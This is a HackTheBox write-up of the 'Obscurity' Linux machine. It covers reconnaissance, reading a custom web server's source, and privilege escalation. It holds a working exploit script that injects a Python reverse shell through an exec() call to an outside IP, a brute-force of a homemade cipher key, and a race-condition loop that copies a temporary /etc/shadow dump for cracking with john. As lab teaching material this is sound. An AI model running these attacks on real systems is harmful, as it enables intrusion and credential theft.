







---
Category:
  - B2R
Difficulty: Medium
Platform: HackTheBox
Status: 3. Complete
tags:
  - code-review
  - cracking-shadow-file
  - exploit-dev
  - python-coding
  - reversing
  - Linux
---
## Improved skills

- Code review
- Reversing
- Python coding
- Cracking shadow file

## Used tools

- nmap
- owasp zap
- python
- john

---

## Introduction & Foothold

Obscurity is a medium difficulty Linux machine, containing completely *custom components*, which respects the proverb *“Security through Obscurity”*.

Let’s start as always with a **nmap** port scan:

```bash
$ nmap -A -O --script=banner -o nmap.txt 10.10.10.168
# Nmap 7.80 scan initiated Fri Feb 21 22:01:19 2020 as: nmap -A -O --script=banner -o nmap.txt 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.048s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 21 Feb 2020 21:03:21
|     Server: BadHTTPServer
|     Last-Modified: Fri, 21 Feb 2020 21:03:21
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!--
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=2/21%Time=5E50452A%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Fri,\x2021\x20Feb\x2020
SF:20\x2021:03:21\nServer:\x20BadHTTPServer\nLast-Modified:\x20Fri,\x2021\
SF:x20Feb\x202020\x2021:03:21\nContent-Length:\x204171\nContent-Type:\x20t
SF:ext/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\
SF:n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20na
SF:me=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templ
SF:ate\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20st
SF:ylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boo
SF:tstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-a
SF:wesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templa
SF:temo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target
SF:=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<
SF:div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner
SF:-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20
SF:Fri,\x2021\x20Feb\x202020\x2021:03:21\nServer:\x20BadHTTPServer\nLast-M
SF:odified:\x20Fri,\x2021\x20Feb\x202020\x2021:03:21\nContent-Length:\x204
SF:171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t
SF:<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20co
SF:ntent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conte
SF:nt=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nE
SF:asy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pro
SF:file\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"
SF:scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n-->");
Aggressive OS guesses: Linux 3.2 - 4.9 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.18 (92%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.16 (91%), Crestron XPanel control system (91%), Adtran 424RG FTTH gateway (90%), Linux 2.6.32 (90%), Linux 3.1 - 3.2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   47.56 ms 10.10.14.1
2   47.70 ms 10.10.10.168

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 21 22:01:52 2020 -- 1 IP address (1 host up) scanned in 33.43 seconds
```

We find port 22 open, with *OpenSSH 7.6p1*, and port 8080, with **BadHTTPServer**, a completely **custom web server**. Visiting the content of the web server we find a series of static pages, apparently useless, but one of which containing a message for the developers:


We know that there is a **development folder** containing the **SuperSecureServer.py** file… let’s find it! We can use any fuzzing program, such as **wfuzz**, **ffuf**, **zaproxy** etc …



We find that the correct URL is http://10.10.10.168:8080/develop/SuperSecureServer.py and the content of the file is the following:

```python
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

{body}
"""
DOC_ROOT = "DocRoot"

CODES = {"200": "OK",
        "304": "NOT MODIFIED",
        "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND",
        "500": "INTERNAL SERVER ERROR"}

MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg",
        "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2",
        "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}

class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
    def stringResponse(self):
        return respTemplate.format(**self.__dict__)

class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["documentc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

    def parseRequest(self, request):       
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}

class Server:
    def __init__(self, host, port):   
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))

    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target = self.listenToClient,args = (client,address)).start()

    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    # Set the response to echo back the recieved data
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False

    def handleRequest(self, request, conn, address):
        if request.good:
#            try:
                # print(str(request.method) + " " + str(request.doc), end=' ')
                # print("from {0}".format(address[0]))
#            except Exception as e:
#                print(e)
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum=document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum="400"
        body = document["body"]

        statusCode=CODES[statusNum]
        dateSent = ""
        server = "BadHTTPServer"
        modified = ""
        length = len(body)
        contentType = document["mime"] # Try and identify MIME type from string
        connectionType = "Closed"

        resp = Response(
        statusNum=statusNum, statusCode=statusCode,
        dateSent = dateSent, server = server,
        modified = modified, length = length,
        contentType = contentType, connectionType = connectionType,
        body = body
        )

        data = resp.stringResponse()
        if not data:
            return -1
        conn.send(data.encode())
        return 0

    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

The script *handles client-server requests to the web server*, but contains a **vulnerability** in the following code segment

```python
path = urllib.parse.unquote(path)
try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
```

since an **exec** instruction is executed into *info*, that contains *path*, **a variable that we can populate at will** and **which will be injected** into the exec.

Let’s build a script that allows us to exploit the vulnerability:

```python
import requests
import urllib
import os

target = 'http://10.10.10.168:8080/'

expl = 'tmp\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''

payload = urllib.parse.quote(expl)
print("payload")
print(target + payload)

r = requests.get(target+payload)

print(r.headers)
print(t.text)
```

This script will inject a reverse-shell to our IP, on port 9999, as the content of the variable passed to the exec statement will compose this payload:

```python
exec (output = 'Document: tmp'
	import socket, subprocess, os; s = socket.socket (socket.AF_INET, socket.SOCK_STREAM); s.connect (("10.10.14.27", 9999)); os.dup2 (s.fileno (), 0); os.dup2 (s.fileno (), 1); os.dup2 (s.fileno (), 2); p = subprocess.call ([ "/ bin / bash", "- i"])
a = '')
```



## Lateral movement to Robert

Once we got the shell as *www-data*, let’s do some post-exploitation recon to find out that the user of the machine is called **Robert**. Visiting his home directory we find out that we can read the contents of his files.



Inside the home we find a series of scripts, including a custom SSH server (**BetterSSH**), a crypt-decrypt tool (**SuperSecureCrypt.py**) and a set of files to perform some tests.

The code for **SuperSecureCrypt.py** is the following:

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)

parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)

parser.add_argument('-d', action='store_true', help='Decrypt mode')

args = parser.parse_args()

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #        FILE MODE         #\n"
banner += "  ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
    print("Missing args")
else:
    if args.d:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Decrypting...")
        decrypted = decrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(decrypted)
    else:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Encrypting...")
        encrypted = encrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(encrypted)
```

while the contents of **check.txt**, **out.txt** and **passwordreminder.txt** is

```bash
root@kali:~/Documents/CTF/HTB/Machine/Obscurity/robert# cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

```bash
root@kali:~/Documents/CTF/HTB/Machine/Obscurity/robert# hd out.txt
00000000  c2 a6 c3 9a c3 88 c3 aa  c3 9a c3 9e c3 98 c3 9b  |................|
00000010  c3 9d c3 9d c2 89 c3 97  c3 90 c3 8a c3 9f c2 85  |................|
00000020  c3 9e c3 8a c3 9a c3 89  c2 92 c3 a6 c3 9f c3 9d  |................|
00000030  c3 8b c2 88 c3 9a c3 9b  c3 9a c3 aa c2 81 c3 99  |................|
00000040  c3 89 c3 ab c2 8f c3 a9  c3 91 c3 92 c3 9d c3 8d  |................|
00000050  c3 90 c2 85 c3 aa c3 86  c3 a1 c3 99 c3 9e c3 a3  |................|
00000060  c2 96 c3 92 c3 91 c2 88  c3 90 c3 a1 c3 99 c2 a6  |................|
00000070  c3 95 c3 a6 c3 98 c2 9e  c2 8f c3 a3 c3 8a c3 8e  |................|
00000080  c3 8d c2 81 c3 9f c3 9a  c3 aa c3 86 c2 8e c3 9d  |................|
00000090  c3 a1 c3 a4 c3 a8 c2 89  c3 8e c3 8d c3 9a c2 8c  |................|
000000a0  c3 8e c3 ab c2 81 c3 91  c3 93 c3 a4 c3 a1 c3 9b  |................|
000000b0  c3 8c c3 97 c2 89 c2 81  76                       |........v|
000000b9
```

```bash
root@kali:~/Documents/CTF/HTB/Machine/Obscurity/robert# hd passwordreminder.txt
00000000  c2 b4 c3 91 c3 88 c3 8c  c3 89 c3 a0 c3 99 c3 81  |................|
00000010  c3 91 c3 a9 c2 af c2 b7  c2 bf 6b                 |..........k|
0000001b
```

*We need to find the secret key* in order to be able to decrypt the **passwordreminder.txt** file and authenticate ourselves as **robert**. To do this, *we need to analyse the encryption script and **crack out.txt***

Because **out.txt** and **check.txt** are “*brothers*” (they depend on each other), what we want to do is use the **SuperSecureCrypt.py** encryption mechanism to *brute-force each character of the alphabet with each character inside check.txt*, until get out.txt.

To do this, we just need to build a quick python script

```python
import string

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner+= "################################\n"
banner+= "#        BRUTE FORCE MODE      #\n"
banner+= "################################"
print(banner)

key = ""

with open('check.txt','r',encoding='UTF-8') as f:
    clearFile = f.read()

with open('out.txt','r',encoding='UTF-8') as f:
    cryptedFile = f.read()
    indCrypt = 0
    for cryptChr in cryptedFile:    # ciclo ogni carattere criptato

        for incr in range(1,255):    # provo ogni valore di chiave
            newChr = ord(cryptChr)
            newChr = chr((newChr - incr) % 255)
            if newChr == clearFile[indCrypt]:
                key += chr(incr)
                break                # vado alla lettera criptata successiva
        indCrypt = indCrypt +1        # tengo il conto della posizione del carattere

    print(key)
```

Running our script, we will get the **secret password**, and through the password we will be able to decode **passwordreminder.txt**





**Password found!** Now we can use it via the command **su** to become **Robert**.

## Privilege Escalation

Like the rest of the machine, the privilege escalation path is also based on the exploitation of a custom component of the box. By running the `sudo -l` command we will notice how the user can run the **BetterSSH.py** script with root permissions.

**BetterSSH.py** source is the following:

```python
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Here we can follow two methods to get root permissions:

1. Intercept the file with `/etc/shadow` contents
2. Exploit the code vulnerability

To save time, I decided to follow the first path.

Since *the script temporarily saves* the contents of `/etc/shadow` *within a randomly named file* in `/tmp/SSH`, it is possible to intercept it and move it before the script removes it.

To do this, we have to create the following mini-script:

```bash
#!/bin/bash

while :
do
    find "/tmp/SSH" -type f -exec mv {} /tmp/tmp \;
done
```

and run it, simultaneously execute **BetterSSH.py** with **sudo**.



The program will return an error because it will not be able to delete the file that we have intercepted.

On the other hand, by opening the intercepted file, we will be able to **extract the hash of the root user** to crack it with **john**. Once the password is obtained, we can use the **su** command to authenticate as **root**.



# Trophy

>[!quote]
>Notoriety wasn't as good as fame, but was heaps better than obscurity.
>
>\- Neil Gaiman
